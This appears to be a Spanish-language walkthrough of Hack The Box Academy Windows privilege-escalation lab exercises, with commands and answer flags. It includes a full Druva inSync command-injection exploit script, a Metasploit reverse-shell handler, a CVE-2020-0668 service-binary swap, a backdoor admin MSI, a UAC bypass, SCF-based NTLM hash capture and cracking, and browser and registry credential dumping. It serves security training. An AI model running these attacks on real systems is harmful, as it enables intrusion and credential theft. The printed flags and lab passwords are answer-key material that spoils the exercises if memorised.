xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.87.178 /size:95% /dynamic-resolution /drive:Shared,/home/dani/Escritorio/htbAcademy/windowsPrivilegeEscalation +clipboard
```

Una vez abierto el rdp nos iremos donde se encuentra el archivo compartido y lo trasladamos a nuestro escritorio, la ruta donde se encuentra es la siguiente:

```
This PC\Shared on kali
```

<p align="center"> 

</p>

Luego llevamos a cabo el siguiente comando.

```
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

CVE-2020-0668 es una vulnerabilidad de seguridad en Windows que explota un bug en un servicio que tiene privilegios de administrador (SYSTEM). El exploit crea un "portal" oculto (symlink) que engaña a ese servicio para que copie tu archivo malicioso a una carpeta protegida donde normalmente no tienes permiso de escribir.

```
icacls 'C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe'
```

Básicamente este comando es un comprobante que dice que se ha realizado bien el ataque.

- El archivo está en la ruta protegida (`C:\Program Files (x86)\Mozilla Maintenance Service\`)
- SYSTEM tiene control total `(F)` = Full
- Los administradores tienen control total
- **htb-student también tiene control total** — lo que significa el exploit funcionó

<p align="center"> 

</p>

```
Copy-Item -Path "C:\Users\htb-student\Desktop\maintenanceservice2.exe" -Destination "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe" -Force
```

Luego, volveremos a copiar el archivo pero cambiando el nombre para que se lleve el ataque bien. Por tanto, una vez que el malware está en esa carpeta, cuando se inicia el servicio legítimo, Windows ejecuta accidentalmente tu código en lugar del real, pero con los máximos privilegios (SYSTEM), permitiéndote tener control total del sistema y acceso a archivos protegidos como la flag del administrador.

Luego preparamos el puerto de escucha en nuestra kali

```
sudo msfconsole -r handler.rc
```

El archivo **handler.rc** tendra el siguiente contenido:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.168
set LPORT 8443
exploit
```

Luego en windows escribimos el siguiente comando.

```
net start MozillaMaintenance
```

Importante, nos iremos a nuestra kali, y en cuanto conseguimos la conexión del sistema rápidamente escribimos este comando, ya que tenemos muy poco segundos para conseguir la flag.

```
shell
type C:\Users\Administrator\Desktop\flag.txt
```

<p align="center"> 

</p>

answer: **D0nt_fall_b3h1nd_0n_Patch1ng!**

### Vulnerable Services

1. **Work through the steps above to escalate privileges on the target system using the Druva inSync flaw. Submit the contents of the flag in the VulServices folder on the Administrator Desktop.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.44 /size:95% /dynamic-resolution +clipboard
```

Para realizar esta actividad con éxito tenemos que entender 100% el ataque. Hay un servicio llamada **Druva inSync Client Service** que con la **versión** 6.6.3 es vulnerable por comandos inyection, la idea seria escoger un archivo que se encuentra en la maquina dentro de la carpeta **/tools** llamado **Druva.ps1**

Lo único que hay que cambiar del archivo es el contenido de **$cmd** que lo sustituiremos por: 

La idea es simple, crear un usuario llamado **pwned** que este dentro del grupo **administrators**

```
$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"
```

El script completo sería: 

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Ejecutamos el script.

```
.\Druva.ps1
```

O a la hora de abrir una shell lo hacemos como administrador y escogemos al usuario **pwnd**

<p align="center"> 

</p>

Dentro de la nueva sesión conseguimos la flag.txt

```
type C:\Users\Administrator\Desktop\VulServices\flag.txt
```

answer: **Aud1t_th0se_th1rd_paRty_s3rvices!**

## Credential Theft

### Credential Hunting

1. **Search the file system for a file containing a password. Submit the password as your answer.** 

RDP to 10.129.43.44 (ACADEMY-WINLPE-WS01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.44 /size:95% /dynamic-resolution +clipboard
```

Abrimos la powershell y escribimos el siguiente comando

```
findstr /SIM /C:"password" C:\Users\*.txt C:\Users\*.ini C:\Users\*.cfg C:\Users\*.config C:\Users\*.xml
```

Este comando lo que hace es buscar archivo .xml dentro de la carpeta **\User**

<p align="center"> 

</p>

Luego es cuestión de ir probando, hasta dar con la contraseña:

```
gc 'C:\Users\Public\Documents\settings.xml' |  Select-String password
```

<p align="center"> 

</p>

- `gc` lee el archivo.
- `Select-String` actúa como un filtro, parecido a `grep` en Linux.

answer: **Pr0xyadm1nPassw0rd!**

2. **Connect as the bob user and practice decrypting the credentials in the pass.xml file. Submit the contents of the flag.txt on the desktop once you are done.**

RDP to 10.129.43.44 (ACADEMY-WINLPE-WS01), with user "<font color="#00b050">bob</font>" and password "<font color="#c00000">Str0ng3ncryptedP@ss!</font>"

```
xfreerdp /u:bob /p:Str0ng3ncryptedP@ss! /v:10.129.43.44 /size:95% /dynamic-resolution +clipboard
```

answer: **3ncryt10n_w0nt_4llw@ys_s@v3_y0u**

### Other Files

1. **Using the techniques shown in this section, find the cleartext password for the bob_adm user on the target system.**

RDP to 10.129.43.44 (ACADEMY-WINLPE-WS01), with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.88.159 /size:95% /dynamic-resolution +clipboard
```

Abrimos la powershell y escribimos el siguiente comando:

```
cd C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
```

Dentro nos encontraremos lo siguiente: 

<p align="center"> 

</p>

Sería interesante investigar el archivo **plum.sqlite** que es donde se guarda las contraseñas. A continuación usaremos el siguiente comando para hallar la pass.

```
findstr /i "password pass pwd bob admin" plum.sqlite
```

<p align="center"> 

</p>

answer: **1qazXSW@3edc!**

### Further Credential Theft

1. **Using the techniques covered in this section, retrieve the sa password for the SQL01.inlanefreight.local user account.**

RDP to with user "<font color="#00b050">jordan</font>" and password "<font color="#c00000">HTB_@cademy_j0rdan!</font>"

```
xfreerdp /u:jordan /p:HTB_@cademy_j0rdan! /v:10.129.88.184 /size:95% /dynamic-resolution +clipboard
```

Abrimos powershell y nos iremos a la carpeta **/tools**

```
.\lazagne.exe all
```

**LaZagne** es una herramienta de código abierto diseñada para la **auditoría de seguridad y la informática forense**. Su función principal es el _password recovery_ (recuperación de contraseñas): rastrea el sistema operativo en busca de credenciales que los programas han guardado en el disco duro o en la memoria de forma insegura.

<p align="center"> 

</p>

answer: **S3cret_db_p@ssw0rd!**

2. **Which user has credentials stored for RDP access to the WEB01 host?**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.43.43 /size:95% /dynamic-resolution +clipboard
```

Abrimos powershell, y nos iremos a la carpeta **/tools**

```
.\lazagne.exe all
```

<p align="center"> 

</p>

answer: **amanda**

3. **Find and submit the password for the root user to access `https://vc01.inlanefreight.local/ui/login`**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
.\SharpChrome.exe logins
```

**`SharpChrome.exe`** es una herramienta de post-explotación programada en C# (de ahí el prefijo _Sharp_) que forma parte del arsenal de los equipos de seguridad (_Red Teams_) y auditores. Su único propósito es **extraer de forma automatizada los datos guardados en el navegador Google Chrome** (y otros basados en Chromium, como Microsoft Edge o Brave) en el sistema actual.

El comando específico que planeas usar, **`.\SharpChrome.exe logins`**, le ordena a la herramienta que busque y descifre exclusivamente el **historial de inicios de sesión y contraseñas guardadas** de todos los usuarios del equipo.

> C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Login Data,http://vc01.inlanefreight.local:443/,http://vc01.inlanefreight.local:443/login.html,8/7/2021 6:33:01 PM,13272859981246714,root,ILVCadm1n1qazZAQ!

answer: **ILVCadm1n1qazZAQ!**

4. **Enumerate the host and find the password for ftp.ilfreight.local**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Thorough
```

- **Import-Module .\SessionGopher.ps1** --> Cargar la herramienta en la memoria

* **Invoke-SessionGopher -Thorough**

	- `Invoke-SessionGopher` es la función principal de la herramienta. Al ejecutarla, el script empieza a escanear de forma automática el Registro de Windows (`Registry`) en busca de contraseñas, nombres de usuario y servidores guardados de herramientas como PuTTY, WinSCP, FileZilla o Escritorio Remoto (RDP).

	- `-Thorough` (A fondo / Exhaustivo) es un **parámetro** (o modificador). Por defecto, SessionGopher solo busca en el perfil del usuario que está ejecutando el script en ese momento. Al añadir `-Thorough`, le ordenas a la herramienta que **busque en los perfiles de todos los usuarios que hayan iniciado sesión en esa máquina**, e incluso que busque archivos de configuración `.xml` sueltos por el disco duro que los programas de FTP o RDP suelen dejar olvidados.

<p align="center"> 

</p>

answer: **Ftpuser!**

## Restricted Environments

### Citrix Breakout

1. **Submit the user flag from C:\Users\pmorgan\Downloads**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.89.204 /size:95% /dynamic-resolution +clipboard
```

En primer lugar, abriremos la terminal con root:

pass --> HTB_@cademy_stdnt!

```
sudo su
```

Luego nos situaremos en la siguiente ruta **/home/htb-student/Tools** y compartiremos toda la herramienta con el siguiente comando:

```
smbserver.py -smb2support share $(pwd)
```

<p align="center"> 

</p>

Despues, tenemos que saber la ip de nuestra maquina ubuntu

<p align="center"> 

</p>

Lo necesitamos para obtener las herramientas que estamos compartiendo. La ip es **10.13.38.95**

En el navegador buscaremos lo siguiente:

```
http://humongousretail.com/remote/
```

Credenciales:

- Username: `pmorgan`
- Password: `Summer1Summer!`
- Domain: `htb.local`

<p align="center"> 

</p>

Nos aparece un archivo en la carpeta de descargar y le daremos click y nos abrirá una nueva sesion.

El siguiente paso será abrir Paint, haremos lo que marca la imagen

<p align="center"> 

</p>

Despues en file name escribimos **\\10.13.38.95\share** y a la derecha ponemos **All Files** Con el objetivo de visualizar todas las herramientas compartida de la maquina anterior.

<p align="center"> 

</p>

El siguiente paso es ir a la herramienta **pwn.exe** hacer click derecho del rato y darle a **open** y despues **run** 

<p align="center"> 

</p>

Nos abrirá una terminal y seremos **pmorgan** y podemos obtener la primera flag.txt

```
type C:\Users\pmorgan\Downloads\flag.txt
```

<p align="center"> 

</p>

answer: **CitR1X_Us3R_Esc@p3**

2. **Submit the Administrator's flag from C:\Users\Administrator\Desktop**

En esta actividad el objetivo es escalar privilegio, y usaremos dos herramienta claves que nos ayudará a ello que es **PowerUp.ps1** y **Bypass-UAC.ps1**

> **PowerUp.ps1** es un script en PowerShell diseñado para la fase de **escalada de privilegios** en entornos Windows. Su función principal es analizar el sistema de forma automatizada en busca de fallos de configuración comunes, permisos mal asignados en servicios, ejecutables vulnerables o contraseñas expuestas en el registro. En lugar de buscar vulnerabilidades complejas en el código, inspecciona descuidos del administrador que permitan a un usuario de bajo nivel manipular el sistema para convertirse en Administrador o _SYSTEM_.

> **Bypass-UAC.ps1**, por otro lado, es una herramienta enfocada específicamente en **saltarse la protección de Control de Cuentas de Usuario (UAC)** de Windows. El UAC es esa ventana emergente que pide confirmación ("¿Desea permitir que esta aplicación realice cambios?") cuando intentas ejecutar algo como administrador. Este script aprovecha debilidades en la confianza que el sistema operativo otorga a ciertos programas nativos de Windows para ejecutar comandos con privilegios elevados de forma silenciosa, logrando que un usuario que ya pertenece al grupo de administradores (pero tiene su sesión restringida por el UAC) obtenga una consola con máximos privilegios sin que aparezca ninguna alerta en la pantalla.

La idea es traernos ambas herramientas al escritorio de pmorgan con los siguientes comandos:

```
copy \\10.13.38.95\share\PowerUp.ps1 C:\Users\pmorgan\Desktop
copy \\10.13.38.95\share\Bypass-UAC.ps1 C:\Users\pmorgan\Desktop
```

Luego necesitaremos usar el siguiente comando para transformar nuestro cmd en un powershell, ya que sino, no me acepta los siguientes comandos que quiero ejecutar.

```
powershell -ep bypass
```

A continuación usaremos la herramienta **PowerUp.ps1**

```
Import-Module .\PowerUp.ps1
Write-UserAddMSI
.\UserAdd.msi
```

1. `Import-Module .\PowerUp.ps1` --> Carga las herramientas en la memoria. Este comando le dice a PowerShell que lea el archivo `PowerUp.ps1` y aprenda todas las funciones ocultas que tiene dentro.

2. `Write-UserAddMSI` --> Fabrica un instalador "trampa". Esta es una función interna de PowerUp. Cuando la ejecutas, el script crea automáticamente un archivo instalador de Windows (con extensión `.msi`) llamado `UserAdd.msi`. Este instalador no instala ningún programa real; su único propósito oculto es que, al ejecutarse, creará un nuevo usuario Administrador en el equipo (normalmente llamado `backdoor` con la contraseña `Password123!`).

 3. `.\UserAdd.msi` --> Ejecuta el instalador para activar la trampa. Con esta línea ejecutas el archivo que acabas de fabricar. En entornos Windows, los archivos `.msi` a menudo se ejecutan automáticamente con privilegios elevados de _SYSTEM_ debido a una vulnerabilidad de mala configuración conocida como _AlwaysInstallElevated_. Al lanzarlo, el instalador se aprovecha de ese permiso del sistema para añadir el nuevo usuario administrador de forma silenciosa.

<p align="center"> 

</p>

Una vez creado el usuario **backdoor:T3st@123** estando en el grupo administrator iniciamos sesión

```
runas /user:backdoor cmd
```

<p align="center"> 

</p>

En esta sesión tambien tenemos que activar la powershell

```
powershell -ep bypass
```

Pero aun no podemos leer la flag administrador, para ello nos tenemos que trasladar la herramienta **Bypass-UAC.ps1** a **C:\Users\Public**

```
copy Bypass-UAC.ps1 C:\Users\Public\
```

Realizamos este comando en la sesion de **pmorgan** 

<p align="center"> 

</p>

```
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
type C:\Users\Administrator\Desktop\flag.txt
```

1. `Import-Module .\Bypass-UAC.ps1`

**¿Qué significa?** Carga el "manual de trucos" en la memoria. Al igual que hacíamos con PowerUp, este comando le dice a PowerShell que lea el archivo `Bypass-UAC.ps1`. Al hacerlo, la consola aprende y desbloquea nuevas funciones especiales para saltarse el Control de Cuentas de Usuario (UAC) que antes no sabía ejecutar.

2. `Bypass-UAC -Method UacMethodSysprep`

**¿Qué significa?** Ejecuta el truco usando un programa de Windows como "cómplice". Este comando activa la magia. Le estás diciendo a la herramienta que use un método específico llamado **`UacMethodSysprep`**.

- **¿Cómo funciona el truco?** `Sysprep.exe` es una herramienta técnica real y legítima de Windows que el sistema operativo considera "de total confianza". Debido a esto, Windows le permite ejecutarse con privilegios máximos automáticamente sin mostrar la molesta ventana emergente que pide confirmación. El script engaña a este programa de confianza para que, al arrancar, abra en su lugar una **nueva ventana de comandos (CMD o PowerShell) totalmente invisible para el usuario**, pero con los máximos privilegios de administrador concedidos.

<p align="center"> 

</p>

answer: **C1tr!x_3sC@p3_@dm!n**

## Additional Techniques

### Interacting with Users

1. **Using the techniques in this section obtain the cleartext credentials for the SCCM_SVC user.**

RDP to with user "<font color="#00b050">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.90.154 /size:95% /dynamic-resolution +clipboard
```

Crearemos un archivo en el bloc de notas con lo siguiente:

```bash
[Shell]
Command=2
IconFile=\\La-ip-Atacante\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

Lo guardaremos como archivo .scf, yo lo nombro como **clickme.scf** Luego este archivo lo tendremos que compartir en la carpeta compartida llamada **C:\Department Shares**

Para mirar que permisos tienen las carpetas dentro de **C:\Department Shares** usaremos la herramienta **icacls**

```
icacls "C:\Department Shares\*"
```

<p align="center"> 

</p>

En esta ruta nos comenta que el usuario **sccm_svc** tiene permisos, por tanto dentro tienes unas carpetas, quiero saber si dentro de alguna deja de escribir a un usuario random.

```
"C:\Department Shares\Public\*"
```

<p align="center"> 

</p>

Podemos comprobar que en la carpeta IT cualquier usuario puede escribir, por tanto en esa carpeta alojamos el archivo **clickme.scf**

Luego, en nuestra kali usamos el responder

```
sudo responder -w -v -I tun0
```

[SMB] NTLMv2-SSP Client   : 10.129.90.154
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\sccm_svc
[SMB] NTLMv2-SSP Hash     : sccm_svc::WINLPE-SRV01:70f31baf211d125c:083F67C418A55F9064FEFCB68B8C6FEF:010100000000000000B6D4409010DD014A338B9B25EDCB9C00000000020008004B0039003900460001001E00570049004E002D004E003200550058005400310034004C0030004200390004003400570049004E002D004E003200550058005400310034004C003000420039002E004B003900390046002E004C004F00430041004C00030014004B003900390046002E004C004F00430041004C00050014004B003900390046002E004C004F00430041004C000700080000B6D4409010DD0106000400020000000800300030000000000000000100000000200000757260BCF6DE82329AD8D9F55D82FCE4DDEFFC859477E9275D299397EDCB102F0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310036003800000000000000000000000000

Creamos un archivo llamado **hash**, y escribimos en el lo siguiente:

```
sccm_svc::WINLPE-SRV01:70f31baf211d125c:083F67C418A55F9064FEFCB68B8C6FEF:010100000000000000B6D4409010DD014A338B9B25EDCB9C00000000020008004B0039003900460001001E00570049004E002D004E003200550058005400310034004C0030004200390004003400570049004E002D004E003200550058005400310034004C003000420039002E004B003900390046002E004C004F00430041004C00030014004B003900390046002E004C004F00430041004C00050014004B003900390046002E004C004F00430041004C000700080000B6D4409010DD0106000400020000000800300030000000000000000100000000200000757260BCF6DE82329AD8D9F55D82FCE4DDEFFC859477E9275D299397EDCB102F0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310036003800000000000000000000000000
```

Usamos la herramienta **hashcat** para conseguir la contraseña del usuario **sccm_svc**

```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

answer: **Password1**

### Pillaging

1. **Access the target machine using Peter's credentials and check which applications are installed. What's the application installed used to manage and connect to remote systems?**

RDP to with user "<font color="#00b050">Peter</font>" and password "<font color="#c00000">Bambi123</font>"

```
xfreerdp /u:Peter /p:Bambi123 /v:10.129.203.122 /size:95% /dynamic-resolution +clipboard
```

Abrimos la powershell escribimos los siguientes comandos:

```
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
```

- **`Get-ItemProperty`**: Va al registro de Windows a leer las propiedades de una ruta.

- **`HKLM:\Software\...\Uninstall\*`**: Es la ruta del registro donde se anotan los programas de 64 bits instalados. El asterisco (`*`) significa "busca todos los programas que haya aquí dentro".

- **`Select-Object ...`**: De toda la información técnica que tiene el registro, a ti solo te interesan tres datos: el nombre del programa (`DisplayName`), la versión (`DisplayVersion`) y dónde está instalado (`InstallLocation`). Todo esto se guarda en una caja (variable) llamada `$INSTALLED`.

```
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
```

- Hace exactamente lo mismo que la línea anterior, pero busca en la ruta `Wow6432Node`, que es donde Windows registra las aplicaciones más antiguas o de 32 bits.

